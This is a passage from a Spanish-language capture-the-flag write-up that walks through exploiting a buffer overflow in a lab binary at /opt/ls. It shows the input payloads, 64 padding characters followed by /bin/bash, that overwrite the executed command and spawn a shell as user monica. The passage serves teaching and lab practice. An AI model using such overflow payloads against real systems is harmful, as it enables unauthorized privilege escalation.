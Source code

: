 Como vemos el programa nos saluda con el nombre que hayamos especificado y nos suelta un resultado, en este caso es el resultado del comando **`ls`** al directorio actual (**`/opt`**{: .filepath }).

Ahora sí, comencemos con la exploración. Para empezar probé un número alto de caracteres (**`70`**) para ver el comportamiento del programa, vamos a verlo:

```sh
www-data@eyes:/opt$ ./ls
Enter your name:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA, Im executing ls
 Output:
sh: 1: AAAAAA: not found
```

Vemos que ya no se está ejecutando el comando **`ls`**, ahora nos está dando el error de que el comando **_`AAAAAA`_** no se encuentra. Como antes mencioné, esta vulnerabilidad está afectando a las otras variables, modificando así su valor.

Viendo esto automáticamente supe que tenía el control del comando que se estaba ejecutando, pero para ello debería restarle **`6`** caracteres a la cadena de texto inicial (esto es debido a que a partir de los **`64`** caracteres se está modificando el comando a ejecutar, en este caso la variable **`ls`**), quedando así una cadena de **`64`** caracteres.

Vamos a ver lo que pasa si ejecutamos el programa y le pasamos **`64`** caracteres:

```sh
www-data@eyes:/opt$ ./ls
Enter your name:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA, Im executing ls
 Output:
www-data@eyes:/opt$
```

Vemos que no nos ha dado ningún resultado, esto es debido a que hemos borrado el contenido de la variable **`ls`**. Ahora pasémosle un comando, para ello lo escribiremos después de los **`64`** caracteres:

```sh
www-data@eyes:/opt$ ./ls
Enter your name:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/bash
Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/bash, Im executing ls
 Output:
monica@eyes:/opt$
```

Vemos que nos hemos convertido en **`monica`** ya que en el programa, antes de dar el resultado, se establecen los **`IDs`** de usuario y grupo del proceso actual, en este caso siendo los de **`monica`**:

```c
monica:x:1000:1000:monica,,,:/home/monica:/bin/bash
```

```c
setuid(1000);
setgid(1000);
```
